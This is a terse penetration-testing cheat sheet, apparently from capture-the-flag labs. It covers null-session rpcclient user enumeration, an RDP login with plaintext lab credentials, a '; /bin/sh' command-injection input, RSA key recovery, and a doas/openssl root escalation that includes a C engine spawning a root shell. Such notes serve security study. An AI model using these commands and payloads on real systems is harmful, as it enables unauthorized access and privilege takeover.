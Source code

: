 tmux attch -t 0

crtl b then n

or

crtl b then o 

## rpcclient

RPC - TCP 445

rpcclient -U "" -N 10.10.10.161 // Null auth

I can get a list of users with "enumdomusers", "enumdomgroups" for groups;

rpcclient 10.10.142.109 -U nik



## xfreerdp

xfreerdp /u:bitbucket /p:littleredbucket /v:lab.enterprise.thm /dynamic-resolution


## pingsys 

/usr/bin/pingsys '127.0.0.1; /bin/sh'

## Rsactftool 

public.crt to exract private.crt

python RsaCtfTool.py --publickey ../public.crt --private

## openssl 

openssl rsautl -decrypt -ssl -inkey private.crt -in key.bin.enc -out output
openssl aes-256-cbc -d -in secret.enc -pass file:output 

## doas.conf 

DOas is alternative of sudo

**permit nopass plot_admin as root cmd openssl**

Exploit

doas openssl enc -in /root/root.txt

or

```c
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
